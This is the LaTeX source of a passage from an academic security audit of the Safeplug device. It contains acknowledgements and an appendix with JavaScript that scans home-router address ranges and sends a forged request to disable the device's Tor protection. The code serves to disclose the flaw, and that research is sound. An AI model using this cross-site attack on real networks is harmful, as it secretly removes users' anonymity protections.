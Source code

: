 \documentclass[10pt, letterpaper]{article}
\title{Security Audit of Safeplug}
\author{Annie Edmundson and Anna Kornfeld Simpson}
\begin{document}
\maketitle






%
%



%

\section{Acknowledgements}
We would like to express our gratitude to Ed Felten for helping us procure the Safeplugs and to Josh Kroll for donating a lot of time and his computer to the routing effort.  We also thank whoever left the very nice set of screwdrivers on our desks!



\newpage
\appendix
\section{\\Javascript for Website Attack} \label{App:AppendixA}


\begin{lstlisting}
function go() { 
   var IP_SCANS = 255;
   var prefix = "http://192."
   var SECOND_START = 168;
   var SECOND_END = 168;
   var THIRD_START = 0;
   var THIRD_END = 1;

   for (var i = SECOND_START; i <= SECOND_END; i++) {
      for (var j = THIRD_START; j <= THIRD_END; j++) {
         for (var k = 0; k < IP_SCANS; k++) 
         {
            var tryip = prefix +  i + "." + j + "." + k;
            var req = new XMLHttpRequest();
            req.open("POST", tryip + "/svc/xspctrl/disableTor", true);
            req.timeout = 1000;
            req.send();
         }
      }
   }
}
\end{lstlisting}
\end{document}
